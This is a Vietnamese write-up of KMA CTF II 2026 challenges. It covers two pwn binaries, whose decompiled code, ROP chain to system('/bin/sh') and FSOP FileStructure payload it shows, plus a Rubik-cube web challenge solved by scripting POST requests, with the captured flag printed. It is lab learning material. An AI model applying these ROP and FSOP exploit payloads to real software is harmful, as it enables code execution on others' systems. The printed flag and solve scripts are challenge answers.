# KMA CTF II 2026
## PWN / Binary exploit by kazuke
Challenge này có 2 lỗi chính: OOB read và Buffer Overflow

### OOB read
Lỗi thứ nhất cho phép em leak libc, nó xuất hiện ở hàm `read_mail`:
```c
__int64 read_mail()
{
  int int_num; // [rsp+4h] [rbp-Ch]
  mail *mail; // [rsp+8h] [rbp-8h]

  mail_print((__int64)"Mail id: ");
  int_num = mail_read_int();
  if ( int_num <= 0 )
    return mail_print((__int64)"Invalid mail id\n");
  mail = (mail *)new_mail(int_num);
  if ( !mail )
    return mail_print((__int64)"Invalid mail id\n");
  mail_print((__int64)"From: ");
  mail_print((__int64)mail->sender);
  mail_print((__int64)"\nTo: ");
  mail_print((__int64)mail->recipe);
  mail_print((__int64)"\nSubject: ");
  mail_print((__int64)mail->subj);
  mail_print((__int64)"\nBody:\n");
  mail_write(1, mail->body, 0x110);
  return mail_print((__int64)"\n");
}
```
Hàm `mail_write` trong trường hợp này hoạt động giống `write(1, buf, 0x110)`. Nó in hết `0x110` byte ra màn hình mà không phân biệt byte NULL



Vì địa chỉ `stdout` được rải rác khắp nơi trên bss và nó nằm trong vùng `0x110` byte nên là em có thể leak đc libc từ đây



### Buffer Overflow
Buffer Overflow xuất hiện ở hàm `import_archive`:
```c
// vuln func
unsigned __int64 import_archive()
{
...
  _BYTE buf[5]; // [rsp+1Bh] [rbp-15h] BYREF
  unsigned __int16 v8; // [rsp+20h] [rbp-10h] BYREF
  unsigned __int16 v9; // [rsp+22h] [rbp-Eh] BYREF
  unsigned __int16 v10; // [rsp+24h] [rbp-Ch] BYREF
  unsigned __int16 v11; // [rsp+26h] [rbp-Ah] BYREF
...
    mail_print((__int64)"Paste archive blob:\n");
  if ( mail_read(0, (__int64)buf, 13) == 13
  // Chỉ cần pass các điều kiện trong if này
  // Có thể điều khiển từng len dựa vào input của mik
    && buf[0] == 0x4D
    && buf[1] == 0x41
    && buf[2] == 0x49
    && buf[3] == 0x4C
    && buf[4] == 1
    && (sender_len = get_val(&v8),
        recv_len = get_val(&v9),
        subj_len = get_val(&v10),
        body_len = get_val(&v11),
        sender_len <= 0x30u)
    && recv_len <= 0x30u
    && subj_len <= 0x60u )
  {
    archive = (archive *)get_slot();
    if ( archive )
    {
      if ( sender_len && mail_read(0, (__int64)archive->sender_len, sender_len) != sender_len )
        goto LABEL_29;
      if ( sender_len <= 0x2Fu )
        archive->sender_len[sender_len] = 0;
      if ( recv_len && mail_read(0, (__int64)&archive->mail.sender[35], recv_len) != recv_len )
        goto LABEL_29;
      if ( recv_len <= 0x2Fu )
        archive->mail.sender[recv_len + 0x23] = 0;
      if ( subj_len && mail_read(0, (__int64)&archive->mail.recipe[35], subj_len) != subj_len )
        goto LABEL_29;
      if ( subj_len <= 0x5Fu )
        archive->mail.recipe[subj_len + 0x23] = 0;
      data = mail_read_data(0, &archive->mail.subj[83], body_len);
      if ( data >= 0 )
      {
        if ( body_len <= 0xFFu && (unsigned __int64)data < 0x100 )
          archive->mail.subj[data + 0x53] = 0;
        mail_print((__int64)"Imported as id ");
        archive_len(*(_DWORD *)archive->name);
        mail_print((__int64)"\n");
...
}
```
Đọc sơ thì `if condition` có check len của các phần tử từ input của user nhưng thiếu `body_len`, nghĩa là len của body có dài tới mấy vẫn bypass đc. Trong khi len thực tế của nó chỉ tới `0x100`
```c
typedef struct mail{
    char id[5];
    char sender[0x30];
    char recipe[0x30];
    char subj[0x60];
    char body[100];
} mail;
```
Vì ko có bất cứ thứ gì check độ dài hợp lệ của body nên sinh ra `Buffer Overflow`. Lúc này, khi program cho em nhập input thì em sẽ ghi đè đc `saved rip`
```c
data = mail_read_data(0, &archive->mail.subj[83], body_len);
```
Điểm đặc biệt ở hàm này là nó gọi `mail_read`(hoạt động giống read) trong internal của chính nó:


Lúc này, em chỉ việc chỉnh offset sao cho hợp lý để rop chain và call system là có đc shell

```py
slna(b'> ', 6)
sa(b'Paste archive blob:\n', load)
s(b'a'*0x30)
s(b'b'*0x30)
s(b'c'*0x60)
pop_rdi = 0x00000000000277e5 + libc.address
load = flat(
    b'a'*0x98,
    pop_rdi+1,
    pop_rdi,
    next(libc.search(b'/bin/sh\0')),
    libc.sym.system
).ljust(0x200, b'a')

s(load)
```


## PWN / QUIET
Challenge này cũng có 2 bug chính: Nối chuỗi %s và Buffer Overflow
### Nối chuỗi %s
Challenge cho phép em edit `operator` (leak bin) và `auditor` (leak libc), mỗi cái em đều được edit tối đa `0x40` bytes:
```c
unsigned __int64 __fastcall edit(void *target)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("label:");
  if ( (int)get_input(target, 0x40u) < 0 )
    perror("short label");
  puts("saved");
  return v2 - __readfsqword(0x28u);
}
```
Bug nằm ở 2 hàm này trong hàm `show cards`:
```c
show_oprator(&operator_4060);
show_auditor(&auditor_40A0);
```
Cả 2 hàm đều in content bằng `%s`, điều này khiến em có thể nối chuỗi nhờ nhập `0x40` input ở cả 2 loại

Lúc này, em có thể leak được `bin` lẫn `libc` nhờ vào việc nối chuỗi cả 2
- Show_operator:

- show_auditor:


Khúc leak đc 2 thằng này thì em chủ yếu spam input để test nên ko có reverse 2 hàm `show`

### Buffer Overflow
Bug thứ 2 nằm ở `import_packet`:
```c
unsigned __int64 import_packet()
{
  char src_name[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("source name: ");
  if ( (int)get_str((__int64)src_name, 0x10u) < 0 )
    perror("input closed");
  stream_fd_3B0 = get_fd(src_name);
  if ( stream_fd_3B0 )
  {
    if ( fread(&packet_size_43A0, 1u, 2u, stream_fd_3B0) == 2 )
    {
      printf("packet bytes: %u\n", (unsigned __int16)packet_size_43A0);// not clear bytes before read other sources
      if ( fread(&packet_data_43B0, 1u, (unsigned __int16)packet_size_43A0, stream_fd_3B0) != (unsigned __int16)packet_size_43A0 )
        puts("packet truncated");
      fclose(stream_fd_3B0);
...
```
Ở hàm `get_fd`, có 1 điều kiện đặc biệt là nếu `path` là `@` thì sẽ xài `dup` và `fdopen`
```c
FILE *__fastcall get_fd(const char *name)
{
  int src_idx; // [rsp+10h] [rbp-10h]
  int fd; // [rsp+14h] [rbp-Ch]

  src_idx = find_src(name);
  if ( *((_BYTE *)&path_40F8 + 0x58 * src_idx) != '@' )
    return fopen(sources_40E0[src_idx].path, "rb");
  fd = dup(dword_40E4[0x16 * src_idx]);         // bug?
  if ( fd >= 0 )
    return fdopen(fd, "rb");
  else
    return 0;
}
```
Điều đáng chú ý ở đây là `dup`, vì nó là 1 hàm lạ nên em có note lại luôn. Tác dụng của nó là duplicate 1 cái fd có sẵn sang cái fd mới, `cả 2 cùng trỏ vào 1 file description`
> The [dup()](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://man7.org/linux/man-pages/man2/dup.2.html&ved=2ahUKEwi3y_C-qemWAxVRZvUHHShYBfgQFnoECA8QAQ&usg=AOvVaw1ES3yyJi2RCS37dSNpb2BE) system call allocates a new file descriptor that refers to the same open file description as the descriptor oldfd. ()

Vì tại vị trí lấy `fd = NULL` nên lúc này `dup` tạo thêm 1 fd mới trỏ vào `0` là nơi nhận input của user

> fd mới đc mở vẫn sẽ là `3`

Lúc này, các hàm `fread` sau hoạt động như 1 read bình thường cho phép user nhập input, cách hoạt động mà chương trình ko mong muốn:
```c
 stream_fd_3B0 = get_fd(src_name);
  if ( stream_fd_3B0 )
  {
    if ( fread(&packet_size_43A0, 1u, 2u, stream_fd_3B0) == 2 )
    {
      printf("packet bytes: %u\n", (unsigned __int16)packet_size_43A0);// not clear bytes before read other sources
      if ( fread(&packet_data_43B0, 1u, (unsigned __int16)packet_size_43A0, stream_fd_3B0) != (unsigned __int16)packet_size_43A0 )
        puts("packet truncated");
      fclose(stream_fd_3B0);
      stream_fd_3B0 = 0;
      puts("import complete");
    }
```
Vì program lấy `packet_size_43A0` như 1 size để nhập cho `packet data` thông thường nên em có thể tạo ra `Buffer Overflow` thông qua `packet_size_43A0` đã bị control.

Mà nơi chứa con trỏ heap `file struct` của cái `fd` đó lại nằm ngay dưới vùng `packet_data_43B0` nên em có thể ghi đè và fake thành 1 cái file struct khác. Sau đó tận dụng `fclose` cái `struct fake` đó mà thực thi fsop.


### FSOP
Vì kĩ thuật này em đã note ở trong 1 số write up khác nên em chỉ cần lấy lại script r chỉnh sửa 1 chút là được

- [file_struct_layout](https://github.com/dungthtd9126/CTF-note)
- [fsop_technique](https://github.com/dungthtd9126/Lac-CTF)
- [fsop_base_knowledge](https://github.com/dungthtd9126/write-up-task-CLB/tree/main/task2)

> Từ khúc này trở đi thì em sẽ viết thêm cách debug hay điểm cần lưu ý để bản thân tương lai đọc lại

Để call được `vtable` thì mục tiêu là thỏa mãn điều kiện như hình để call `_IO_OVERFLOW` (chính là vtable)


Sau khi call `fake vtable` là `IO_wfile_overflow` thì sẽ cần chú ý component `_wide_data`(offset: 0xa0) ở trong `FILE struct`



Đặc biệt chú ý từ dòng asm `_IO_wfile_overflow+32`, `rdi` hiện tại là con trỏ đầu `FILE struct`. Nên `[rdi+0xa0]` sẽ trả về `fake wide data`. Lúc này, phải điều khiển sao cho `wide_data->read_base = 0` thì mới call được `_IO_wdoallocbuf`. 

Sau đó, trong `_IO_wdoallocbuf` phải control sao cho `wide_data->write_end = 0` thì mới jump tiếp tới chỗ mong muốn 


Khi call `hàm fake` cuối cùng thì điều chỉnh offset của `hàm fake` sao cho phù hợp



### Các điều kiện để FSOP
- flags = `0x3b01010101010101`
- _IO_read_ptr = `b'sh'`
- fp->mode <= 0
- fd->write_ptr > fp_write_base
- `wide_data->read_base` (_IO_wfile_overflow) = `wide_data->write_end` (_IO_wdoallocbuf) = 0

Example:
```py
io = FileStructure()
io.flags = 0x3b01010101010101
io._IO_read_ptr = b'sh'
io._IO_write_ptr = exe.address+0x5000
io._IO_write_base = 0
io.chain = libc.sym._IO_2_1_stdout_
io.vtable = libc.sym._IO_wfile_jumps+8
io._lock = libc.sym._IO_stdfile_2_lock
io._wide_data = exe.address +0x4490 # check later
```

## MISC / R U Ready? 
### Solve Explaination
Challenge này là 1 web giải rubix, flag sẽ xuất hiện sau khi giải được 2 stage


Đối với từng stage thì em sẽ phải gửi 2 `POST`: `bắt đầu stage` và `gửi các moves để hoàn thành stage`

Để gửi `POST` thì em sẽ có 1 function dùng để gửi request cùng với body ở dạng json và nhận lại response từ server 
```py
def post(path, body):
    # This sends an HTTP POST request. And wait 15 seconds for server's response
    response = requests.post(BASE_URL + path, json=body, timeout=15)
    # check HTTP status code. If the server got error, raises an exception
    response.raise_for_status()
    # Converts the server's JSON response into Python objects.
    return response.json()
```
Sau khi nhận respone thì nó sẽ có dạng như vầy:
```py
{'runId': 'a2006d9c-fa0f-42fe-8858-2880e4d5f1f5', 'stage': 1, 
'puzzle': '2x2x2', 
'scramble': "F U L2 F' U F2 R2 F' L2 F2 U'", 'serverNow': 1789303902668, 
'startsAt': 1789303905668, 
'deadlineAt': 1789303965668}
```
Theo như response show thì lần run hiện tại đang ở stage 1 và có thứ tự làm rối rubix 2x2x2 được ghi trong scramble

Vì thế, để mà giải được cục này thì chỉ cần reverse lại order là sẽ pass được các stage

Để mà reverse lại các move thì em sẽ có 1 hàm riêng cho việc này:
```py
def reverse_scramble(scramble):
    result = []
    for move in reversed(scramble.split()):
        if move.endswith("'"):
            move = move[:-1]       # R' -> R
        elif not move.endswith("2"):
            move += "'"             # R -> R'
        # R2 stays R2. The reversed order is already handled above.
        result.append(move)
    print("-"*0x10)
    print(f"After reverse the order:\n {result}")
    print("-"*0x10)

    return result
```
Hàm này hoạt động như cách giải rubix thông thường, sau khi đã biết được cách rubix đc xáo. Đối với các move như R thì phải làm ngược lại là R` và ngược lại. Riêng các move như L2, F2,... có ký tự cuối là 2 thì nó xoay 180 độ nên giữ nguyên move, lúc sau vẫn xài đúng move đó thì nó sẽ thành 360 độ.

Từng move sẽ được cho vào 1 list là `result` sau khi phân biệt move đó là gì sau đó trả về `result`

- Dưới đây là 1 example sau khi gửi `POST` start stage 1 và đảo ngược lại các move
```c
{'runId': 'a2006d9c-fa0f-42fe-8858-2880e4d5f1f5', 'stage': 1, 
'puzzle': '2x2x2', 
'scramble': "F U L2 F' U F2 R2 F' L2 F2 U'", 'serverNow': 1789303902668, 
'startsAt': 1789303905668, 
'deadlineAt': 1789303965668}
----------------
After reverse the order:
 ['U', 'F2', 'L2', 'F', 'R2', 'F2', "U'", 'F', 'L2', "U'", "F'"]
----------------
```
- So sánh rõ hơn các move mà server đã xáo và sau khi được reverse lại bằng `reverse_scramble`:
```c
// Server
'scramble': "F U L2 F' U F2 R2 F' L2 F2 U'"
// Local reversed
['U', 'F2', 'L2', 'F', 'R2', 'F2', "U'", 'F', 'L2', "U'", "F'"]
```
Hàm thứ 3 của em sẽ là 1 hàm dùng để sử dụng cả 2 hàm trên:
```py
def solve_stage(stage, pass_token=None):
    if pass_token is None:
        start_body = {}
    else:
        start_body = {"stagePassToken": pass_token}
    run = post(f"/api/stages/{stage}/start", start_body)

    # The server queues the run before accepting moves.
    wait = run["startsAt"] - run["serverNow"]
    if wait < 0:
        wait = 0
    wait = wait / 1000 + 0.25
    time.sleep(wait)
    print(run)
    result = post(
        f"/api/stages/{stage}/finish",
        {
            "runId": run["runId"],
            "moves": reverse_scramble(run["scramble"]),
        },
    )
    print("-"*0x20)
    print(f"Final result: {result}")
    print("-"*0x20)

    if not result.get("ok"):
        raise RuntimeError(result)
    return result
```
Đầu tiên là em sẽ phải gửi `POST` lên server để nó tạo id và stage đầu. Lúc này chưa có gì nên body sẽ là rỗng
```py
run = post(f"/api/stages/{stage}/start", start_body = {})
```
Sau khi nhận được phản hồi từ server thì sẽ có thông tin rồi mới bắt đầu bước reverse scramble và gửi lại cho server để solve từng stage

```py
result = post(
  f"/api/stages/{stage}/finish",
  {
      "runId": run["runId"],
      "moves": reverse_scramble(run["scramble"]),
  },
)
```
Vì server `queue run` nên là sẽ phải sleep script để chờ `run` được khởi tạo
```py
# miliseconds
wait = run["startsAt"] - run["serverNow"]
if wait < 0:
    wait = 0
# seconds
wait = wait / 1000 + 0.25
time.sleep(wait)
```
Sau khi bypass stage 1 thì nó sẽ trả về `stagePassToken`:
```c
Final result: {'ok': True, 
'stage': 1, 
'elapsedMs': 421, 
'moveCount': 11, 
'stagePassToken': 'eyJ0eXAiOiJzdGFnZS1wYXNzIiwic3RhZ2UiOjEsIm5vbmNlIjoiNGZjMjAwMzg2ZGQwNTEzYjVmMWQwNmM2YjAzZDBlZmYiLCJpYXQiOjE3ODkzMDM5MDYwODksImV4cCI6MTc4OTMwNDUwNjA4OX0.q77PatHi_aV24prr3kA6rdIWMq_aZmDeGVwUhcEp_Qo'}
```

Lúc này chỉ cần nhận response đó, send `POST` mới để khởi tạo `stage 2` và lặp lại bước giải rubix là sẽ có flag:
```c
stage1 = solve_stage(1)
print("Stage 1 solved")
stage2 = solve_stage(2, stage1["stagePassToken"])
```

- Sau khi win stage 2:

```c
Final result: {'ok': True, 'stage': 2, 'elapsedMs': 330, 'moveCount': 21, 'flag': 'KMACTF{tw1st_th3_cl0ck_b4ck}'}
```
> Flag: KMACTF{tw1st_th3_cl0ck_b4ck}

### Bonus
